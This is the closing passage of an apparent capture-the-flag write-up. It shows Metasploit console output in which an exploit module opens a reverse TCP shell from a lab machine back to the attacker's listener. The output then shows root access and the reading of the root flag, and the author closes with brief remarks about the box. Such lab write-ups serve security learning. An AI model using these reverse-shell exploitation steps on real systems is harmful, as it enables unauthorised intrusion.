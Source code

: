     :::text
    msf5 exploit(linux/remote/46984) > run
    [*] Started reverse TCP handler on 10.10.14.13:4444 
    [+] Session cookie: a2ff4450e3a344159ab1fd464db52855
    [*] Attempting to execute the payload...
    [*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.160:32916) at 2019-11-20 14:39:02 +0100

    id
    uid=0(root) gid=0(root) groups=0(root)
    cat root.txt
    cat /root/root.txt
    a2577<redacted>

# Wrapping up

This box was interesting but not the most interesting one. Moreover the name
suggested me that there will be some SMTP (or IMAP) involved. I am a bit
disappointed.

